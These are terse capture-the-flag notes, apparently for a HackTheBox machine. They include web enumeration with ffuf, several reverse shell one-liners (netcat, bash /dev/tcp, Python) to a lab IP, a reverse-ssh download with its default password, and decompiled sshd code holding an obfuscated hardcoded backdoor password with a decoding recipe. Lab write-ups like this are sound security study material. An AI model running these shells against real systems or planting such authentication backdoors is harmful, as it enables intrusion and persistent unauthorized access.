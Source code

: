 ```
store.djewelry.htb
toughsky.djewelry.htb
```

enum
```xml
http://store.djewelry.htb/vendor/symfony/yaml/phpunit.xml.dist
<directory>./Tests</directory>
<directory>./vendor</directory>

```

```yaml
http://store.djewelry.htb/vendor/doctrine/instantiator/phpbench.json
{
    "bootstrap": "vendor/autoload.php",
    "path": "tests/DoctrineTest/InstantiatorPerformance"
}
```

```sh
ffuf -ic -w /usr/share/wordlists/dirb/common.txt -e '.html' -u "http://store.djewelry.htb/FUZZ"
```

```
nc -nlvp 1234
nc 10.10.14.2 1234 -e /bin/bash # not work
or
bash -i >& /dev/tcp/10.10.14.2/1234 0>&1 # not work
or
python3 -c 'import socket; from subprocess import run; from os import dup2;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.2",1234)); dup2(s.fileno(),0); dup2(s.fileno(),1); dup2(s.fileno(),2);run(["/bin/bash","-i"]);'
```

```
wget http://10.10.14.2:4444/upx_reverse-sshx64
ssh -p 31337 djewelry.htb
# Attacker (default password: letmeinbrudipls)
```

```
cat info

```

```
cd /var/mail
cd /etc/apache2
cd /usr/lib/apache2
ls -ltrh
```

```
Date: Sun, 25 Jul 2021 10:31:12 GMT
.....
-rw-r--r-- 1 root root  34K May 17  2021 mod_reader.so
```

```
wget http://10.10.11.146:4444/mod_reader.so
strings mod_reader.so


/usr/sbin/sshd

wget http://10.10.11.146:4444/sshd
```

```
ida64 sshd
auth_password function
```

```c
int auth_password(ssh *ssh,char *password)

{
  Authctxt *ctxt;
  passwd *ppVar1;
  int iVar2;
  uint uVar3;
  byte *pbVar4;
  byte *pbVar5;
  size_t sVar6;
  byte bVar7;
  int iVar8;
  long in_FS_OFFSET;
  char backdoor [31];
  byte local_39 [9];
  long local_30;
  
  bVar7 = 0xd6;
  ctxt = (Authctxt *)ssh->authctxt;
  local_30 = *(long *)(in_FS_OFFSET + 0x28);
  backdoor._28_2_ = 0xa9f4;
  ppVar1 = ctxt->pw;
  iVar8 = ctxt->valid;
  backdoor._24_4_ = 0xbcf0b5e3;
  backdoor._16_8_ = 0xb2d6f4a0fda0b3d6;
  backdoor[30] = '\xa5';
  backdoor._0_4_ = 0xf0e7abd6;
  backdoor._4_4_ = 0xa4b3a3f3;
  backdoor._8_4_ = 0xf7bbfdc8;
  backdoor._12_4_ = 0xfdb3d6e7;
  pbVar4 = (byte *)backdoor;
  while( true ) {
    pbVar5 = pbVar4 + 1;
    *pbVar4 = bVar7 ^ 0x96;
    if (pbVar5 == local_39) break;
    bVar7 = *pbVar5;
    pbVar4 = pbVar5;
  }
  iVar2 = strcmp(password,backdoor);
  uVar3 = 1;
  if (iVar2 != 0) {
    sVar6 = strlen(password);
    uVar3 = 0;
    if (sVar6 < 0x401) {
      if ((ppVar1->pw_uid == 0) && (options.permit_root_login != 3)) {
        iVar8 = 0;
      }
      if ((*password != '\0') ||
         (uVar3 = options.permit_empty_passwd, options.permit_empty_passwd != 0)) {
        if (auth_password::expire_checked == 0) {
          auth_password::expire_checked = 1;
          iVar2 = auth_shadow_pwexpired(ctxt);
          if (iVar2 != 0) {
            ctxt->force_pwchange = 1;
          }
        }
        iVar2 = sys_auth_passwd(ssh,password);
        if (ctxt->force_pwchange != 0) {
          auth_restrict_session(ssh);
        }
        uVar3 = (uint)(iVar2 != 0 && iVar8 != 0);
      }
    }
  }
  if (local_30 == *(long *)(in_FS_OFFSET + 0x28)) {
    return uVar3;
  }
                    /* WARNING: Subroutine does not return */
  __stack_chk_fail();
}

```

```
https://gchq.github.io/CyberChef/#recipe=Swap_endianness('Hex',31,false)From_Hex('Space')XOR(%7B'option':'Hex','string':'96'%7D,'Standard',false)&input=MHhhNQoweGE5ZjQKMHhiY2YwYjVlMwoweGIyZDZmNGEwZmRhMGIzZDYKMHhmZGIzZDZlNwoweGY3YmJmZGM4CjB4YTRiM2EzZjMKMHhmMGU3YWJkNg
```
## Referensi
- https://github.com/vulhub/vulhub/blob/master/phpunit/CVE-2017-9841/1.png
- https://ice-wzl.medium.com/netcat-shell-stabilization-248b83bcc06c
- https://www.linuxfordevices.com/tutorials/shell-script/reverse-shell-in-python
- https://github.com/Fahrj/reverse-ssh
- https://web.archive.org/web/20220309084547/https://0xdedinfosec.vercel.app/posts/hackthebox-undetected-writeup
- https://forum.hackthebox.com/t/official-undetected-discussion/252509/74